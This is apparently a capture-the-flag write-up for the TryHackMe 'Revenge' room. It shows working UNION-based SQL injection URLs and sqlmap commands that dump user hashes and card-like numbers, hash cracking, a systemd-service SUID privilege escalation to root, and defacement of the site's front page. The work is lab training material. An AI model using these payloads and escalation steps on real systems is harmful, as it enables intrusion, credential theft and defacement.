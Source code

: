 # 42 - Revenge (MySQL Injection)

Room Link --> [https://tryhackme.com/room/revenge](https://tryhackme.com/room/revenge)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
```
{% endcode %}

After Navigating round the entire page, there is a `/products` page that is vulnerable to SQL injection.

If you navigate to a page that dosen't exist, it displays an error.&#x20;

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Number of Columns

`http://10.10.157.23/products/5 UNION SELECT 1,2,3,4,5,6,7,8-- -` - there are 8 columns, if you enter `9` you get an error, and again we see that both columns 8 and 2 are visible so we can output our queries from either of them.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Current User of the DB

`http://10.10.157.23/products/5%20UNION%20SELECT%201,current_user(),3,4,5,6,7,8`

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Its the root user.

### Schema/DB Name

`http://10.10.157.23/products/5%20UNION%20SELECT%201,database(),3,4,5,6,7,8`&#x20;

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Or we can do the below to dump all schemas/dbs**

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(schema_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.SCHEMATA` - or we can use the "JSON\_ARRAYAGG" with the "CONCAT" function to view all DB/Schema names.

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Table Name

`http://10.10.157.23/products/5 UNION SELECT 1,CONCAT(table_name),3,4,5,6,7,8 from information_schema.tables where table_schema="duckyinc"` -&#x20;

Table name is --> product

**Or we can do the below to dump all tables in the "duckyinc" schema/db**

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(table_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema="duckyinc"`&#x20;

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Columns in Table

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(column_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name="product"`&#x20;

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now:

Under the \`system\_user" Table, these are the columns:

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(column_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name="system_user"` .

{% code lineNumbers="true" %}
```bash
["id", "username", "_password", "email"]
```
{% endcode %}

Under the "user" Table, there are many columns here:

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(column_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name="system_user"` .

{% code overflow="wrap" lineNumbers="true" %}
```bash
["id", "username", "_password", "credit_card", "email", "company", "Host", "User", "Select_priv", "Insert_priv", "Update_priv", "Delete_priv", "Create_priv", "Drop_priv", "Reload_priv", "Shutdown_priv", "Process_priv", "File_priv", "Grant_priv", "References_priv", "Index_priv", "Alter_priv", "Show_db_priv", "Super_priv", "Create_tmp_table_priv", "Lock_tables_priv", "Execute_priv", "Repl_slave_priv", "Repl_client_priv", "Create_view_priv", "Show_view_priv", "Create_routine_priv", "Alter_routine_priv", "Create_user_priv", "Event_priv", "Trigger_priv", "Create_tablespace_priv", "ssl_type", "ssl_cipher", "x509_issuer", "x509_subject", "max_questions", "max_updates", "max_connections", "max_user_connections", "plugin", "authentication_string", "password_expired", "password_last_changed", "password_lifetime", "account_locked"]
```
{% endcode %}

But the "username, password, creditcard" are what we need to check out.

### Dump Data

We can use the `LIMIT` statement to view all the data one by one.

**1st row**

`http://10.10.157.23/products/5 UNION SELECT 1,CONCAT(id,"-",username,"-",_password,"-",email),3,4,5,6,7,8 FROM system_user LIMIT 0,1` .

<figure><img src=".gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**2nd row**

`http://10.10.157.23/products/5 UNION SELECT 1,CONCAT(id,"-",username,"-",_password,"-",email),3,4,5,6,7,8 FROM system_user LIMIT 1,1`

<figure><img src=".gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% code lineNumbers="true" %}
```bash
1-server-admin-$2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a-sadmin@duckyinc.org
2-kmotley-$2a$12$LEENY/LWOfyxyCBUlfX8Mu8viV9mGUse97L8x.4L66e9xwzzHfsQa-kmotley@duckyinc.org
3-dhughes-$2a$12$22xS/uDxuIsPqrRcxtVmi.GR2/xh0xITGdHuubRF4Iilg5ENAFlcK-dhughes@duckyinc.org

```
{% endcode %}

### Using Sqlmap

{% code lineNumbers="true" %}
```bash
# dump the dbs/schemas
sqlmap 10.10.157.23/products/1 --batch --dbs

# dump tables for the "duckyinc" schema/db.
sqlmap 10.10.157.23/products/1 --batch -D duckyinc --tables

# dump the data.
sqlmap 10.10.157.23/products/1 --batch -D duckyinc -T user --dump


# output
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
| id | email                           | company          | username | _password                                                    | credit_card                |
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
| 1  | sales@fakeinc.org               | Fake Inc         | jhenry   | $2a$12$dAV7fq4KIUyUEOALi8P2dOuXRj5ptOoeRtYLHS85vd/SBDv.tYXOa | 4338736490565706           |
| 2  | accountspayable@ecorp.org       | Evil Corp        | smonroe  | $2a$12$6KhFSANS9cF6riOw5C66nerchvkU9AHLVk7I8fKmBkh6P/rPGmanm | 355219744086163            |
| 3  | accounts.payable@mcdoonalds.org | McDoonalds Inc   | dross    | $2a$12$9VmMpa8FufYHT1KNvjB1HuQm9LF8EX.KkDwh9VRDb5hMk3eXNRC4C | 349789518019219            |
| 4  | sales@ABC.com                   | ABC Corp         | ngross   | $2a$12$LMWOgC37PCtG7BrcbZpddOGquZPyrRBo5XjQUIVVAlIKFHMysV9EO | 4499108649937274           |
| 5  | sales@threebelow.com            | Three Below      | jlawlor  | $2a$12$hEg5iGFZSsec643AOjV5zellkzprMQxgdh1grCW3SMG9qV9CKzyRu | 4563593127115348           |
| 6  | ap@krasco.org                   | Krasco Org       | mandrews | $2a$12$reNFrUWe4taGXZNdHAhRme6UR2uX..t/XCR6UnzTK6sh1UhREd1rC | thm{br3ak1ng_4nd_3nt3r1ng} |
| 7  | payable@wallyworld.com          | Wally World Corp | dgorman  | $2a$12$8IlMgC9UoN0mUmdrS3b3KO0gLexfZ1WvA86San/YRODIbC8UGinNm | 4905698211632780           |
| 8  | payables@orlando.gov            | Orlando City     | mbutts   | $2a$12$dmdKBc/0yxD9h81ziGHW4e5cYhsAiU4nCADuN0tCE8PaEv51oHWbS | 4690248976187759           |
| 9  | sales@dollatwee.com             | Dolla Twee       | hmontana | $2a$12$q6Ba.wuGpch1SnZvEJ1JDethQaMwUyTHkR0pNtyTW6anur.3.0cem | 375019041714434            |
| 10 | sales@ofamdollar                | O!  Fam Dollar   | csmith   | $2a$12$gxC7HlIWxMKTLGexTq8cn.nNnUaYKUpI91QaqQ/E29vtwlwyvXe36 | 364774395134471            |
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
```
{% endcode %}

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>The flag is also here.</p></figcaption></figure>

### Initial Access

#### Moving forward to Cracking the hashes.

<figure><img src=".gitbook/assets/image (284).png" alt=""><figcaption></figcaption></figure>

The password for the `server-admin` was cracked successfully.

<figure><img src=".gitbook/assets/image (283).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

`sudo -l` .

<figure><img src=".gitbook/assets/image (285).png" alt=""><figcaption></figcaption></figure>

We can modify the "duckyinc.service" file as root.

We can modify this service to our own vulnerable version which will give us a root shell. This will give `/bin/bash` a SUID bit set.

```bash
# edit the service file to:
[Service]
Type=oneshot
ExecStart=/bin/bash -c "chmod +s /bin/bash"

[Install]
WantedBy=multi-user.target

# after editing the file.
server-admin@duckyinc:~$ sudo -u root /bin/systemctl daemon-reload
server-admin@duckyinc:~$ sudo -u root /bin/systemctl restart duckyinc.service
server-admin@duckyinc:~$ ls -l /bin/bash 
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```

<figure><img src=".gitbook/assets/image (286).png" alt=""><figcaption></figcaption></figure>

And we are root:

<figure><img src=".gitbook/assets/image (287).png" alt=""><figcaption></figcaption></figure>

But if we see, we do not have the root flag in `/root` directory. We know from the note we got that we need to deface the front page in order to complete the challenge.

If we check the root dir, we can see a `.vininfo` file, making reference to a `/var/www/duckyinc/templates/index.html` - this is the index page of the company website.

```
nano /var/www/duckyinc/templates/index.html
```

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-qYnnkX3DZIE/X6_mk-ogPfI/AAAAAAAAqqM/627nZBkUVp8n9p-_OWj3vwM7W2xwa5tKACLcBGAsYHQ/s16000/16.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

We list the directory again and now we can read the last flag.

<figure><img src=".gitbook/assets/image (288).png" alt=""><figcaption></figcaption></figure>

Done!

